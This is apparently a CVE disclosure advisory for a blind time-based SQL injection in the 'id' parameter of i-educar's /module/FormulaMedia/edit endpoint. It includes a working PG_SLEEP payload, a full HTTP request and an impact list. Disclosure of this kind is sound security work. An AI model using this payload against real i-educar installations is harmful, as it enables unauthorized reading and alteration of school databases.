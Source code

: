 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/FormulaMedia/edit` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/FormulaMedia/edit` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/FormulaMedia/edit`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Formula de Cálculo de Média**.

<img width="1567" height="861" alt="Pasted image 20250817015830" src="https://github.com/user-attachments/assets/5f1919b2-914e-4a3d-9f41-3c39b7ac7755" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /module/FormulaMedia/edit?id=1%27+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+%27WqeR%27=%27WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1177" height="1049" alt="Pasted image 20250817020824" src="https://github.com/user-attachments/assets/bd45c1c5-e827-43e7-93e1-3efbb5dcc14f" />


Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.


## References

[CVE-2025-9684](https://www.cve.org/CVERecord?id=CVE-2025-9684)

[VulnDB-321896](https://vuldb.com/?id.321896)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
